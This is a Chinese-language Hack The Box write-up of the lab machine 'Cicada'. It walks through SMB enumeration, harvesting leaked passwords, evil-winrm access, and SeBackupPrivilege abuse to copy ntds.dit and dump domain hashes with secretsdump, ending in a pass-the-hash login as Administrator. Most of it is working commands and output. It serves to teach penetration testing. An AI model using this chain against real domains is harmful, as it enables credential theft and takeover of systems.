

###### tags: `Hack the box` `HTB` `Easy` `Windows`

# Cicada
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.2.100 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.2.100:53
Open 10.129.2.100:88
Open 10.129.2.100:135
Open 10.129.2.100:139
Open 10.129.2.100:389
Open 10.129.2.100:445
Open 10.129.2.100:464
Open 10.129.2.100:593
Open 10.129.2.100:636
Open 10.129.2.100:3268
Open 10.129.2.100:3269
Open 10.129.2.100:5985
Open 10.129.2.100:56267

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-10-04 14:53:45Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
| SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
| SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
56267/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

查看`smbclient`
```
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -N -L 10.129.2.100

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        DEV             Disk      
        HR              Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```

匿名進去`HR`看看，下載`Notice from HR.txt`
```
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -N //10.129.2.100/HR  
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024
  
smb: \> get "Notice from HR.txt"
```

有一個密碼`Cicada$M6Corpb*@Lp#nZp!8`
```
┌──(kali㉿kali)-[~/htb]
└─$ cat "Notice from HR.txt" 

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8
```

用`rid`爆破
```
┌──(kali㉿kali)-[~/htb]
└─$ nxc smb 10.129.2.100 -u guest -p '' --rid-brute 
SMB         10.129.2.100    445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)                                                                                                       
SMB         10.129.2.100    445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.129.2.100    445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.2.100    445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.2.100    445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.2.100    445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.129.2.100    445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.2.100    445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.2.100    445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.2.100    445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.2.100    445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.129.2.100    445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.2.100    445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.2.100    445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.2.100    445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.2.100    445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.2.100    445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

製作一個`users.txt`
```
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

嘗試`smbclient`進行登入看看，可以嘗試到`michael.wrightson`可以登入`DEV`
```
┌──(kali㉿kali)-[~/htb]
└─$ smbclient //10.129.49.246/DEV -U michael.wrightson%'Cicada$M6Corpb*@Lp#nZp!8'
Try "help" to get a list of possible commands.
smb: \> 
```

利用`ldapdomaindump`
```
┌──(kali㉿kali)-[~/htb]
└─$ ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.49.246 -o dump
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

查看`domain_users.html`可以看到`david.orelious`的密碼



```
aRt$Lp#7t*VQ!3
```

利用帳號`david.orelious`密碼`aRt$Lp#7t*VQ!3`登入`DEV`，可以拿到` Backup_script.ps1`
```
┌──(kali㉿kali)-[~/htb]
└─$ smbclient //10.129.49.246/DEV -U david.orelious%'aRt$Lp#7t*VQ!3'          
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

                4168447 blocks of size 4096. 336215 blocks available
smb: \> get Backup_script.ps1
```

查看這個`script`
```
┌──(kali㉿kali)-[~/htb]
└─$ cat Backup_script.ps1

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

可以得到`emily.oscars`跟`Q!3@Lp#M6b*7t*Vt`，可以利用`evil-winrm`登入
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.49.246 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt
3d3055fe004f78a59ba78005dbe0f076
```

查看`emily.oscars`的使用者權限，發現有`SeBackupPrivilege`跟`SeRestorePrivilege`
```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

參考[Windows Privilege Escalation: SeBackupPrivilege](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/?source=post_page-----f29a7a6bd355--------------------------------)
```
┌──(kali㉿kali)-[~/htb]
└─$ nano raj.dsh 

set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:

┌──(kali㉿kali)-[~/htb]
└─$ unix2dos raj.dsh
unix2dos: converting file raj.dsh to DOS format...
```

回到靶機上創`Temp`
```
*Evil-WinRM* PS C:\> mkdir Temp
*Evil-WinRM* PS C:\> cd Temp
*Evil-WinRM* PS C:\Temp> upload /home/kali/htb/raj.dsh
*Evil-WinRM* PS C:\Temp> diskshadow /s raj.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  CICADA-DC,  10/7/2024 6:10:08 AM

-> set context persistent nowriters
-> add volume c: alias raj
-> create
Alias raj for shadow ID {c9c571dc-ca8b-468b-98af-4dd2816a4a23} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {a3122769-a401-4fcc-88a5-473290f9b38f} set as environment variable.

Querying all shadow copies with the shadow copy set ID {a3122769-a401-4fcc-88a5-473290f9b38f}

        * Shadow copy ID = {c9c571dc-ca8b-468b-98af-4dd2816a4a23}               %raj%
                - Shadow copy set: {a3122769-a401-4fcc-88a5-473290f9b38f}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{fcebaf9b-0000-0000-0000-500600000000}\ [C:\]
                - Creation time: 10/7/2024 6:10:11 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: CICADA-DC.cicada.htb
                - Service machine: CICADA-DC.cicada.htb
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %raj% z:
-> %raj% = {c9c571dc-ca8b-468b-98af-4dd2816a4a23}
The shadow copy was successfully exposed as z:\.
->
```

`robocopy`
```
*Evil-WinRM* PS C:\Temp> robocopy /b z:\windows\ntds . ntds.dit
```

`download`
```
*Evil-WinRM* PS C:\Temp> reg save hklm\system c:\Temp\system

*Evil-WinRM* PS C:\Temp> download ntds.dit

*Evil-WinRM* PS C:\Temp> download system
```

`secretsdump`
```
┌──(kali㉿kali)-[~/htb]
└─$ impacket-secretsdump -ntds ntds.dit -system system local 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: f954f575c626d6afe06c2b80cc2185e6
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
CICADA-DC$:1000:aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3779000802a4bb402736bee52963f8ef:::
cicada.htb\john.smoulder:1104:aad3b435b51404eeaad3b435b51404ee:0d33a055d07e231ce088a91975f28dc4:::
cicada.htb\sarah.dantelia:1105:aad3b435b51404eeaad3b435b51404ee:d1c88b5c2ecc0e2679000c5c73baea20:::
cicada.htb\michael.wrightson:1106:aad3b435b51404eeaad3b435b51404ee:b222964c9f247e6b225ce9e7c4276776:::
cicada.htb\david.orelious:1108:aad3b435b51404eeaad3b435b51404ee:ef0bcbf3577b729dcfa6fbe1731d5a43:::
cicada.htb\emily.oscars:1601:aad3b435b51404eeaad3b435b51404ee:559048ab2d168a4edf8e033d43165ee5:::
```

`Administrator`登入之後，在`C:\Users\Administrator\Desktop`得root.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.129.49.246 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
744425907faffb3fd4135ec59d829d53
```